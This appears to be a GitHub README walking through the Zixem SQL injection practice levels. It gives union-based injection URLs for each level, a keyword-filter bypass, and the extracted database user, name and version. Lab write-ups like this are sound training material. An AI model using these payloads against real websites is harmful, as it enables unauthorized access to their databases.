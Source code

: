# My SQL train Zixem 

## [lv1](https://www.zixem.altervista.org/SQLi/level1.php)

### Step 1: Check column table `id=-1`

`https://www.zixem.altervista.org/SQLi/level1.php?id=-1 union select 1,2,3-- -` 

### Step 2: Exploit

`https://www.zixem.altervista.org/SQLi/level1.php?id=-1 union select 1,user(),3-- -`  

=> Item ID: zixem@localhost 

`https://www.zixem.altervista.org/SQLi/level1.php?id=-1 union select 1,database(),3-- -`

=>Item ID: my_zixem

## [lv2](https://www.zixem.altervista.org/SQLi/level2.php)

### Step 1: Check column table `id=-1'`
`https://www.zixem.altervista.org/SQLi/level2.php?showprofile=-1' union select 1,2,3,4-- -`

### Step 2: Exploit
`https://www.zixem.altervista.org/SQLi/level2.php?showprofile=-1' union select user(),database(),3,4-- -`

## [lv3](https://www.zixem.altervista.org/SQLi/level3.php)

### Step 1: Check column table `item=-1'`
`https://www.zixem.altervista.org/SQLi/level3.php?item=-1' union select 1,2,3,4-- -`

Result : union is filtered => uni 
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'uni select user(),2,3,4-- -'' at line 1
```
Payload :
` https://www.zixem.altervista.org/SQLi/level3.php?item=-1' unionon select 1,2,3,4-- -`

### Step 2: Exploit
`https://www.zixem.altervista.org/SQLi/level3.php?item=-1' unionon select user(),database(),3,4-- -`

## [lv4](https://www.zixem.altervista.org/SQLi/level4.php)

### Step 1: Check column table  `ebookid=-1`

`https://www.zixem.altervista.org/SQLi/level4.php?ebookid=-1' union select 1,2,3,4,5-- -`

### Step 2: Exploit 
`https://www.zixem.altervista.org/SQLi/level4.php?ebookid=-1' union select user(),2,database(),@@version,5-- -`

## [lv7](https://www.zixem.altervista.org/SQLi/level7.php)

### Step 1: Check column table `id=-11` 
`https://www.zixem.altervista.org/SQLi/level7.php?id=-1 union select 1,2,3-- -`

Result: `value=ok2` 

![1](https://github.com/tinasahara1/Vulnerable-CTF-/blob/832008ae9bcba27139f82351931a1c0a0798533a/SQL/MySQL/image/level7_1.PNG)

### Step 2: Exploit 
`https://www.zixem.altervista.org/SQLi/level7.php?id=-11 union select 1,user(),3-- -`

![2](https://github.com/tinasahara1/Vulnerable-CTF-/blob/832008ae9bcba27139f82351931a1c0a0798533a/SQL/MySQL/image/level7_2.PNG)



